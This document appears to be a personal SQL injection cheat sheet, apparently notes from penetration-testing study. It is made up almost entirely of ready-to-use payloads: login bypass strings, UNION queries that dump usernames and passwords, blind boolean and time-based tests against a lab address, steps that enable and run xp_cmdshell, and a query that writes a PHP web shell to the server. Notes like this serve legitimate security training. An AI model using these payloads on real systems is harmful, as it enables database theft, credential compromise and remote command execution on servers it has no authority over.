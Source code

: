 # SQLI
#comments
```
comments
--
;--
#
;#
```

#error_based
```
simple auth bypass
user' OR 1=1 --

' or 1=1 in (select @@version) --
' OR 1=1 in (SELECT * FROM users) --
' or 1=1 in (SELECT password FROM users) --
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') --
```

#UNION_based
- Same number of columns are being returned as the original query.
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query.
```
get # of columns
iterate '1' until error
' ORDER BY 1--

%' UNION SELECT database(), user(), @@version, null, null --

shift right if missing first entry, app probably not showing id col
' UNION SELECT null, null, database(), user(), @@version  --

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() --

' UNION SELECT null, username, password, description, null FROM users --
```

#blind
```
test for boolean based
http://192.168.50.16/blindsqli.php?user=admin' AND 1=1 --

test for time based
http://192.168.50.16/blindsqli.php?user=admin' AND IF (1=1, sleep(30),'false') --
```

#xp_cmdshell
```
enable

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

exploit
EXECUTE xp_cmdshell 'whoami';
```

#write_webshell_on_disk
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" --
```

further reading: https://portswigger.net/web-security/sql-injection